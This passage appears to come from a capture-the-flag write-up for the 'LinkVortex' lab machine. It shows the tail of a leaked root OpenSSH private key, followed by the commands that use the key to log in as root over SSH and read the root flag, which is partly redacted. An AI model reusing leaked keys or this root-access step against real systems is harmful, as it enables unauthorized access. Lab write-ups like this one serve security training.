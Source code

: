 ```zsh
VACuS94oITmJfcOnzXnWXiO+cuokbyb2Wmp1VcYKaBJd6S7pM1YhvQGo1JVKWe7d4g88MF
Mbf5tJRjIBdWS19frqYZDhoYUljq5ZhRaF5F/sa6cDmmMDwPMMxN7cfhRLbJ3xEIL7Kxm+
TWYfUfzJ/WhkOGkXa3q46Fhn7Z1q/qMlC7nBlJM9Iz24HAxAAAAMEAw8yotRf9ZT7intLC
+20m3kb27t8TQT5a/B7UW7UlcT61HdmGO7nKGJuydhobj7gbOvBJ6u6PlJyjxRt/bT601G
QMYCJ4zSjvxSyFaG1a0KolKuxa/9+OKNSvulSyIY/N5//uxZcOrI5hV20IiH580MqL+oU6
lM0jKFMrPoCN830kW4XimLNuRP2nar+BXKuTq9MlfwnmSe/grD9V3Qmg3qh7rieWj9uIad
1G+1d3wPKKT0ztZTPauIZyWzWpOwKVAAAAwQDKF/xbVD+t+vVEUOQiAphz6g1dnArKqf5M
SPhA2PhxB3iAqyHedSHQxp6MAlO8hbLpRHbUFyu+9qlPVrj36DmLHr2H9yHa7PZ34yRfoy
+UylRlepPz7Rw+vhGeQKuQJfkFwR/yaS7Cgy2UyM025EEtEeU3z5irLA2xlocPFijw4gUc
xmo6eXMvU90HVbakUoRspYWISr51uVEvIDuNcZUJlseINXimZkrkD40QTMrYJc9slj9wkA
ICLgLxRR4sAx0AAAAPcm9vdEBsaW5rdm9ydGV4AQIDBA==
-----END OPENSSH PRIVATE KEY-----
```
##### Shell as root

Connect as `root` via ssh key:

```zsh
❯ chmod 600 id_rsa_root

❯ ssh root@linkvortex.htb -i id_rsa_root
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 6.5.0-27-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Mon Dec  2 11:20:43 2024 from 10.10.14.61
root@linkvortex:~# cat root.txt 
46f...................c83c7572f4
root@linkvortex:~# 
```

